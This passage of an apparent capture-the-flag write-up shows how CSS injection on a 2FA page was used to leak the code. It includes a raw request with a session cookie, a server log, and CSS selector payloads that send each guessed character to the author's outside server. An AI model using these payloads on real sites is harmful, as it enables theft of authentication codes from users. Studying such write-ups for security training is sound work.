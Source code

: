 From that. I made the following assumptions:

- The 2FA system uses a *UNI 2FA App*
- It's possible to define the css the app will use when requesting the code
- The code length is 7 chars max. (I got this information from the HTML in the 2FA page)

I changed the css URL in the request for a URL that points to one of my servers and noticed that the file was actually fetched:

```
POST /pay/17538771/27cd1393c170e1e97f9507a5351ea1ba HTTP/1.1
Host: app.bountypay.h1ctf.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:76.0) Gecko/20100101 Firefox/76.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 40
Origin: https://app.bountypay.h1ctf.com
Connection: close
Referer: https://app.bountypay.h1ctf.com/pay/17538771/27cd1393c170e1e97f9507a5351ea1ba
Cookie: token=eyJhY2NvdW50X2lkIjoiQWU4aUpMa245eiIsImhhc2giOiIzNjE2ZDZiMmMxNWU1MGMwMjQ4YjIyNzZiNDg0ZGRiMiJ9
Upgrade-Insecure-Requests: 1

app_style=https://foo.x.0xcc.ovh/test.css
```

```
3.21.98.146 - - [02/Jun/2020:12:38:14 +0000] "GET /test.css HTTP/2.0" 200 46102 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Ubuntu Chromium/83.0.4103.61 HeadlessChrome/83.0.4103.61 Safari/537.36"
```

At that point I knew I could try data exfiltration via CSS injection. You can read more about this technique [here](https://medium.com/bugbountywriteup/exfiltration-via-css-injection-4e999f63097d) First I tried with a very simple CSS file, to validate the exfiltration would actually work:

```css
input {background-image:url("https://foo.x.0xcc.ovh/input.jpg");}
```

I re-sent the POST request above and got a callback to my server, awesome! I then generated a CSS with selectors for all printable ASCII chars:

```css
input[value^="0"] {background-image:url("https://foo.x.0xcc.ovh/0.jpg");}
input[value^="1"] {background-image:url("https://foo.x.0xcc.ovh/1.jpg");}
input[value^="2"] {background-image:url("https://foo.x.0xcc.ovh/2.jpg");}
...
```

It still seemed to work, I got callbacks. I tried again with 2 chars selectors:

```css
input[value^="00"] {background-image:url("https://foo.x.0xcc.ovh/00.jpg");}
input[value^="01"] {background-image:url("https://foo.x.0xcc.ovh/01.jpg");}
input[value^="02"] {background-image:url("https://foo.x.0xcc.ovh/02.jpg");}
...
```
